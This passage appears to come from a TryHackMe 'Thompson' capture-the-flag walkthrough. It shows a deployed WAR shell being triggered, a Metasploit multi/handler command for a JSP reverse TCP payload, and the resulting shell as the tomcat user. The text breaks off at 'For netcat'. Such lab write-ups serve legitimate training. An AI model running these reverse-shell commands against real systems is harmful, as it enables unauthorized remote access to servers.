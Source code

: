 <img src='/assets/img/Thompson-THM/uploadedshell.png' alt=''>

**Execute it**

Click the name of your war file after you already open netcat or msfconsole
Command
```
msfconsole -q -x 'use exploit/multi/handler;set payload java/jsp_shell_reverse_tcp;set LHOST 10.18.18.117;set LPORT 1234;run'
```
Output
```
[*] Using configured payload generic/shell_reverse_tcp
payload => java/jsp_shell_reverse_tcp
LHOST => 10.18.18.117
LPORT => 1234
[*] Started reverse TCP handler on 10.18.18.117:1234 

```
Now click shell to get shell to a box
We got shell to box
```
└─$ msfconsole -q -x 'use exploit/multi/handler;set payload java/jsp_shell_reverse_tcp;set LHOST 10.18.18.117;set LPORT 1234;run'
[*] Using configured payload generic/shell_reverse_tcp
payload => java/jsp_shell_reverse_tcp
LHOST => 10.18.18.117
LPORT => 1234
[*] Started reverse TCP handler on 10.18.18.117:1234 
[*] Command shell session 1 opened (10.18.18.117:1234 -> 10.10.187.143:38758 ) at 2022-08-07 22:15:44 +0300

id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

```
For netcat
